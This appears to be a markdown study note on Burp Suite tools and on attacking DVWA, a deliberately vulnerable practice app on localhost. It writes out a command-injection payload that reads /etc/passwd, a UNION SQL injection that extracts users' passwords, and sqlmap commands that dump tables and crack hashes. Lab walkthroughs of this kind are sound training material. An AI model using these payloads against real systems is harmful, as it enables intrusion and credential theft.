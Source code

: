 ### Proxy
This section is where you can itnercept all the traffic. **Intercept is off** is the command to switch on to start intercepting.
**Forward** s to make the request go though (the browser). You can also modify it and send it modified.
Once you have an interesting request, you can rightclick and send that request to the other tools for  further analysis: see below.

### Intruder
In the intruder you do brute force attacks. You can select the pieces of the request to change (using §) into the right table, and choose the payload for each ddatum (it also depends on the attack type, e.g. *Sniper* tries everything at every spot).

### Repeater
It allows to store a request and send it many times over with (manual) modifications.

### Sequencer
This tool is specific to make statistical analysis of cookies or tokens. Send the piece of request that contains such token to the sequencer from the proxy, identify what the token is and allow the Sequencer to do send the request for tokens over and over.

## Command injection

On DVWA inject
```
127.0.0.1 |cat /etc/passwd
```

## SQL Injection
Input the following line in the user ID field:
```
%' and 1=0 union select null, concat(user,':',password) from users #
```
To optimise and reach the above query state, you can use Burp Suite and send the SQL request to the **repeater** and optimise the text. You can use the **decoder** option to convert the text above into the MySQL format automatically (and then copy-paste it.

## SQL Injection (Blind) -- requires `sqlmap`
These ijection are about injecting SQL code without executing the query at the same time. Thus, the results will not be displayed on the screen as a HTTP response.
You need on the one hand the Burp Suite and on the other hand **sqlmap**.
Get the git of sqlmap (in python) 
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```
and run it -- from the root folder -- via
```
python sqlmap.py -hh
```
At this point, use burp to **intercept** the request to get the URL for **sqlmap**
```
python sqlmap.py -u "http://localhost:88/vulnerabilities/sqli_blind/?id=1" --cookie="PHPSESSID=p80ale70geam5uu49728t2r2u6; security=low" --batch --tables
```
To find the existing databases use `--dbs`. Once you find the database, select it via `-D` and then find the `--tables`. Select a table with `-T` and to display the columns use `--columns`. Once you know the columns, chose them with `-C` and `--dump` the information. You will be asked to attempt a dictionary attack to crack the hashes: you can say yes and have a try.
Then check the `--password` option as well.
The list of commands to crack the DVWA blind SQL injection challenge:
```
python sqlmap.py -u "http://localhost:88/vulnerabilities/sqli_blind/?id=1" --cookie="PHPSESSID=p80ale70geam5uu49728t2r2u6; security=low" --dbs
```